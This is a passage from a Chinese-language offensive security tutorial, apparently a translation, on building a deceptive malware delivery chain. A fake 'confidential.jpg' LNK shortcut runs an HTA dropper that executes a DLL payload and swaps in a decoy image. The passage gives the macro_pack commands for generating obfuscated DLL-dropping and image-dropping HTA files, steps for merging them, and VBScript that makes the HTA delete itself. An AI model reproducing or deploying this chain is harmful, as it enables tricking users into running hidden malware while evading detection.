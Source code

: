 ### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E7%AD%96%E7%95%A5"></a>利用策略

在第一个PoC中，我们的任务是让目标用户认为自己打开的是一个图片文件（`confidential.jpg`），然而实际上他打开的是一个恶意的LNK快捷方式文件（`confidential.jpg.lnk`）。快捷方式中隐藏着一个HTA释放器（dropper）。LNK会执行HTA文件，后者会释放并执行DLL载荷，并将快捷方式替换为一张欺诈图片（`confidential.jpg`）。

[![](https://p0.ssl.qhimg.com/t01bb0b035c33822590.jpg)](https://p0.ssl.qhimg.com/t01bb0b035c33822590.jpg)

### <a class="reference-link" name="%E6%9E%84%E9%80%A0%E9%87%8A%E6%94%BEDLL%E7%9A%84HTA%E8%BD%BD%E8%8D%B7"></a>构造释放DLL的HTA载荷

我们可以利用[macro_pack](https://github.com/sevagas/macro_pack)来构造经过混淆处理的HTA载荷，该载荷可以释放并执行`payload.dll`，具体命令如下：

```
echo DllMain | macro_pack.exe --template=EMBED_DLL --embed=payload.dll --obfuscate -G payload.hta
```

`EMBED_DLL`模板可以创建一段VB代码，释放`-embed`参数所指向的文件，并使用`Rundl32l`来加载这个文件。我们可以指定模板运行DLL文件的`DllMain`函数。

我们可以使用`-G`选项来生成HTA文件，文件中的VB代码经过混淆处理。

大家可以使用mshta来检查HTA文件是否能正常运行，是否会调用我们的DLL文件（DLL文件将被释放到临时目录中）。

### <a class="reference-link" name="%E6%9E%84%E9%80%A0%E9%87%8A%E6%94%BE%E5%9B%BE%E7%89%87%E7%9A%84HTA%E8%BD%BD%E8%8D%B7"></a>构造释放图片的HTA载荷

我们也可以使用`EMBED_EXE`这个[macro_pack](https://github.com/sevagas/macro_pack)模板来嵌入、释放并运行我们选定目录中的载荷。在本文案例中，我们使用的是“confidential.jpg”这张图片。我们的目标是将该图片释放到恶意LNK文件所处的同一目录中，这样一旦DLL载荷被成功运行，该图片就可以替换对应的LNK文件。

```
echo "confidential.jpg" | macro_pack.exe -t EMBED_EXE --embed=confidential.jpg -o -G pic.hta
```

如果我们双击`pic.hta`，我们会看到`confidential.jpg`图片被释放到当前目录中，并且被默认的图片查看器打开。

### <a class="reference-link" name="%E5%B0%81%E8%A3%85%E5%88%B0%E8%87%AA%E5%88%A0%E9%99%A4%E7%9A%84HTA%E6%96%87%E4%BB%B6%E4%B8%AD"></a>封装到自删除的HTA文件中

我并没有开发具体功能来将多个二进制载荷嵌入一个`macro_pack`中，也就是说我们必须生成DLL释放器、图片释放器然后手动执行复制粘贴操作才能构造最终可用的HTA载荷。

具体操作如下：

1、使用文本编辑器打开`payload.hta`以及`pic.hta`文件；

2、将`pic.hta`的`AutoOpen`函数重命名为`AutoOpen2`；

3、将`pic.hta`的所有vb代码拷贝到`payload.hta`中（最后两行的`AutoOpen`以及`Close`代码除外）。

4、编辑`payload.hta`文件最后两行的`AutoOpen`以及`Close`代码。

```
AutoOpen2
AutoOpen
Set objFSO = CreateObject( "Scripting.FileSystemObject" )
Set WshShell = CreateObject("WScript.Shell") 
objFSO.DeleteFile window.document.location.pathname
Close
```
